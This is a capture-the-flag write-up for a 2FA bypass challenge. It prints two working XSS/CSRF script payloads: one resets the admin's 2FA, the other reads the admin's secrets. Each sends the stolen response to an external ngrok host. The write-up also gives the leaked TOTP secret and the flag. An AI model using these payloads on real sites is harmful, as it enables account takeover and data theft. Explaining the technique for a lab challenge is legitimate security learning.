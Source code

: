 # Two For One

In this challenge, we had to authenticate as the admin user in a 2FA-enabled environment.

The feedback feature of the site had an XSS vulnerability, allowing us to perform a CSRF on the admin to reset their 2FA code.

```markup
<html>
    <body>
        <script>
            fetch("/reset2fa", {
                method: "POST",
                credentials: "include"
            })
            .then(response => response.text())
            .then(text => {

                // Steal the token
                fetch("http://dffa-42-60-216-15.ngrok.io/" + btoa(text));
            });
        </script>
    </body>
</html>
```

This allowed us to steal the 2FA token:

```json
{"url":"otpauth://totp/Fort%20Knox:admin?secret=POYRTZ7WQMGBJZIX&issuer=Fort%20Knox"}
```

This token can then be used by any authenticator application (e.g. Google Authenticator) to generate the admin 2FA codes. With the 2FA code in hand, we can once again perform a CSRF to steal the admin's secrets:

```markup
<html>
    <body>
        <script>
            for (let i = 0; i < 3; i++) {
                fetch("/show_secret", {
                    method: "POST",
                    credentials: "include",
                    headers: {
                        "Content-Type": "application/json"
                    },
                    body: JSON.stringify({
                        "otp": "392346",
                        "secretId": `${i}`
                    })
                })
                .then(response => response.text())
                .then(text => {
                    // Steal the secret
                    fetch("http://dffa-42-60-216-15.ngrok.io/" + btoa(text));
                })
            }
        </script>
    </body>
</html>
```

The flag is contained in the secret.

```bash
 ~ echo "eyJ2YWx1ZSI6ImZsYWd7OTY3MTBlYTZiZTkxNjMyNmY5NmRlMDAzYzFjYzk3Y2J9In0K" | base64 -d
{"value":"flag{96710ea6be916326f96de003c1cc97cb}"}
```
